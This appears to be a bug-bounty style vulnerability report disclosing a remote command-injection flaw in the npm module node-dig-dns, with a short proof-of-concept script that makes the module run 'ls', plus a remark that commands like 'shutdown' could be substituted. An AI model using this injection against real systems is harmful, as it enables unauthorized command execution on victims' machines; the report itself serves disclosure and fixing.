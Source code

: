 # Overview

I would like to report an `RCE` issue in the `node-dig-dns` module. It allows the execution of arbitrary commands remotely inside the victim's PC.

The issue occurs because a user input is formatted inside a command that will be executed without any check. The issue arises [here](https://github.com/StephanGeorg/node-dig-dns/blob/master/src/index.js#L6).

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))

1. Create the following PoC file:

```js
// poc.js
var dig = require("node-dig-dns");

dig([], { dig: "ls" })
  .then((result) => {
    console.log(result);
  })
  .catch((err) => {
    console.log("Error:", err);
  });
```

2. Execute the following commands in another terminal:

```bash
npm i node-dig-dns # Install affected module
node poc.js #  Run the PoC
```

3. The output will show you the result of the `ls` command

Please, note the vulnerability occurs only with a `mono` command, making the commands to be executed more difficult and a little impactful. Anyway, Linux is a complex ecosystem, where commands like `shutdown` can be used in any way to make the PoC work and a bit better.
